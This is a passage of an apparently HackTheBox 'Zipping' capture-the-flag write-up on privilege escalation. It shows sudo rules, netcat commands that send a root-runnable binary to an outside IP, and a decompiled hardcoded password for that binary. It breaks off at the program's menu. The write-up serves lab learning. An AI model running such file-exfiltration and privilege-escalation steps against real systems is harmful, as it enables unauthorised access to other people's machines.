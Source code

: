 We're `rektsu` and we can obtain `user.txt`

# ROOT

Enumeration with `lse.sh` or `sudo -l`.

```
Matching Defaults entries for rektsu on zipping:                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
                                                                                                          
User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

we have a binary, we can download it using netcat.

```bash
receive file: nc -l -p 12344 > stock
send file: nc 10.10.16.75 12344 < /usr/bin/stock
```

Or you can use `scp` after saving a public ssh key under `.ssh` directory in user inside `authorized_keys` file. 

Running the binary it asks for a password.
Let's try to decompile it with `ghidra`

```c
bVar1 = checkAuth(password_buffer);


bool checkAuth(char *param_1)

{
  int iVar1;
  
  iVar1 = strcmp(param_1,"St0ckM4nager");
  return iVar1 == 0;
}

```

ghidra shows the password since its saved in a variable

```
password: St0ckM4nager
```

A menu manager is shown and we can see and modify a stock file from root directory

```

Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: 1
```
